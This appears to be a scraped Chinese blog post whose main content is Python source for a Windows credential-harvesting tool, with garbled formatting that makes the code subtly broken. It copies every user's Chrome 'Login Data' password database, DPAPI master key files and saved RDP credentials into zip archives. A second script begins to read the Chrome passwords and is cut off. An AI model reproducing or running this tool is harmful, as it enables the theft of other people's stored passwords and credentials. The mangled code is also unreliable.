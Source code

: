 def searchlogindata(path, name): for root, dirs, files in os.walk(path): if name in files: root = str(root) logindatapath = root + ‘’ + name return logindatapath

**获取所有用户的谷歌的Login Data文件**

def logindata(): print(’-’ \* 50 + ‘\\n’ + r’\[2\] Get all users Google login data files:’) name = ‘Login Data’ for username in os.listdir(usersdir): Googledir = usersdir + ‘’ + username + r’\\AppData\\Local\\Google’ logindatapath = searchlogindata(Googledir, name) if logindatapath: try: os.makedirs(’./google’) except Exception as e: pass dst = ‘./google/{}logindata’.format(username) shutil.copyfile(logindatapath, dst) print('copy \[{}\] '.format(logindatapath)) logindatapath = ‘’

    if os.path.isdir('google'):
        shutil.make_archive("./google", 'zip', root_dir='./google')
        print('[+] success! google.zip save to {}\pgoogle.zip'.format(os.getcwd()))
        shutil.rmtree('./google')
    
        

获取所有用户的master key file

def masterkey(): print(’-’ \* 50 + ‘\\n’ + r’\[3\] Get the master key file for all users:’) for username in os.listdir(usersdir): Protectdir = usersdir + ‘’ + username + r’\\AppData\\Roaming\\Microsoft\\Protect’ if os.path.isdir(Protectdir): shutil.makearchive("./protect/{}protect".format(username), ‘zip’, rootdir=Protectdir) # 每个用户的protect压缩为usernameprotect.zip print(‘copy \[{}\]’.format(Protectdir))

    if os.path.isdir('protect'):
        shutil.make_archive("./protect", 'zip', root_dir='./protect')
        print('[+] success! protect.zip save to {}\protect.zip'.format(os.getcwd()))
        shutil.rmtree('./protect')
    
        

**获取所有用户的rdp保存凭证**

def rdp(): print(’-’ \* 50 + ‘\\n’ + r’\[4\] Get RDP save credentials for all users:’) for username in os.listdir(usersdir): RDPdir = usersdir + ‘’ + username + r’\\AppData\\Local\\Microsoft\\Credentials’ if os.path.isdir(RDPdir): shutil.makearchive("./rdp/{}rdp".format(username), ‘zip’, rootdir=RDPdir) print(‘copy \[{}\]’.format(RDPdir))

    if os.path.isdir('./rdp'):
        shutil.make_archive("./rdp", 'zip', root_dir='./rdp')
        print(r'[+] success! rdp.zip save to {}\rdp.zip'.format(os.getcwd()))
        shutil.rmtree('./rdp')
    
        

logindata() masterkey() rdp() \`\`\`

readlogindata.exe用来读取谷歌浏览器的链接，用户名和密码（密码需要解密）-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930113532395.png%23pic_center)-
**获取当前系统所有用户谷歌浏览器的密码-
– coding:utf-8 –**-
import sqlite3 import sys import os

try: os.makedirs(’./password’) except Exception as e: pass

LoginDatafile = sys.argv\[1\] # Login Data文件名
